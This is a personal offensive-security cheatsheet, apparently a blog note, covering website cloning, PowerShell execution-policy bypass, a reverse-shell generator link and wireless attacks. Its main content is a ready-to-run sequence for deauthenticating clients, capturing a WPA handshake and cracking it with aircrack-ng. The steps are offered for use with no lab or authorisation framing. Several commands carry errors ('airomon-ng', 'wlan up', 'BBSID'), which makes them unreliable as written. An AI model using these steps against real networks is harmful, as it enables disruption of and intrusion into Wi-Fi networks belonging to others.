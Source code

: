 ```yaml
---
author: clausmalver
title: Offensive Security Cheatsheet
description: A note for quick glances anything related for offensive security.
date: 2024-09-22
categories: [Notes, Hacking]
tags: [linux, powershell, hacking, offensive]
---
```

## Clone a website

Clone a website including images, css, etc.
`wget -mk -nH [URL]`

## Bypass Powershell Execution Policy
`Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted`

## Reverse shells
[Reverse Shell Generator](https://www.revshells.com/)

## Wireless

Collection of notes regarding wireless attack or similar.

### Alfa Networks

Get USB wifi adapter into monitor mode

```
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan up
```
Check if adapter is in monitor mode

`iwconfig wlan0`

### Wifi monitor using Kismet

`kismet -c wlan0 -p ~/log_directory -t output_file`

### Wifi monitor using airodump

`sudo airodump-ng wlan0`

### Deauth attacks

[wifi-deauth](https://github.com/flashnuke/wifi-deauth) - Python script for deauthing attacks

Install and run on system
```
git clone https://github.com/flashnuke/wifi-deauth.git
sudo pip3 install .
sudo wifi-deauth -i <wireless interface>
```

Remember to let it run for a bit so the app can collect clients it can deauth

### Stop interfering processes using airmon-ng

List possible interfering procceses
`sudo airmon-ng check`

Kill them
`sudo airmon-ng check kill`

### Crack WPA wifi

Set interface to monitor

`sudo ifconfig wlan0 down`
`sudo iwconfig wlan0 mode monitor`
`sudo ifconfig wlan0 up`

Kill all processes that uses the interface
`sudo airmon-ng check kill`

Note: `systemctl start NetworkManager` to start the Network services again

Start monitoring and get BBSID and channel you need to attack.
`sudo airomon-ng wlan0`

Specify the BSSID and Channel, and start capture the handshake
`airodump-ng -c [CHANNEL] --bssid [MAC ADRESS] -w [OUTPUTFILE] wlan0`

Crack the WPA password
`aircrack-ng -w [WORDLIST] -b [BBSID] [PCAP FILE]`
